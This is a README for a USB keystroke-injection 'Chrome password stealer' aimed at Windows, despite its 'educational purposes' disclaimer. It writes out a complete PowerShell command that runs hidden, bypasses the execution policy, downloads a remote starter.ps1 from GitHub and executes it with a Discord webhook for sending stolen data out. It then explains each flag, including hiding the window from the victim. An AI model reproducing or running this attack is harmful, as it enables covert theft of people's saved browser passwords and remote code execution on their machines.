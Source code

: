 THIS SCRIPT IS ONLY INTENDED FOR EDUCATIONAL PURPOSES
(decrypt script made by ohyicong)

## Dependencies:
- Windows
- Python

## How it Works:


(This code is very unoptimized, but i havent bothered fixing it)


When the grabber.dd runs it opens a powershell terminal window and enters this string:

```
powershell -w h -NoP -NonI -Exec Bypass -c "cd $env:USERPROFILE\Documents ; iwr -Uri https://raw.githubusercontent.com/simen64/Pico-HID-Scripts/main/chrome-password-stealer/starter.ps1 -OutFile $Env:USERPROFILE\Documents\starter.ps1 ; powershell.exe -File .\starter.ps1 -webhookUrl "<Your discord webhook here>""
```
The ```powershell -w h -NoP -NonI -Exec Bypass -c``` tells powershell to execute a set of commands with some flags:
- ```-w h``` tells powershell to run in a hidden window so the victim cant see logs
- ```-NoP``` makes sure that none of the users profiles are loaded, which could mess up execution
- ```-NonI``` Makes the user unable to interact with the script while its running
- ```-Exec Bypass``` Makes powershell bypass the execution policy which allows powershell to run scripts
- ```-c``` tells powershell what commands to execute, the commands are enclosed in quotes and seperated with semicolons
- Now the script proceecds to execute a sequence of commands

1. The first command ran is ```cd $env:USERPROFILE\Documents``` which takes us into the users Documents folder where we will be doing everything
2. Next we run ```iwr -Uri https://raw.githubusercontent.com/simen64/Pico-HID-Scripts/main/chrome-password-stealer/starter.ps1 -OutFile $Env:USERPROFILE\Documents\starter.ps1``` which invokes a web request to the github link where the starter.ps1 script is and downloading it, the script is placed in the Documents folder with the -OutFile argument
3. Now we run ```powershell.exe -File .\starter.ps1 -webhookUrl "<Your discord webhook here>"``` as our last command. This uses powershell to execute the starter.ps1 script and then passes the variable -webhookUrl to the powershell script. This is used for the discord webhook in the script.
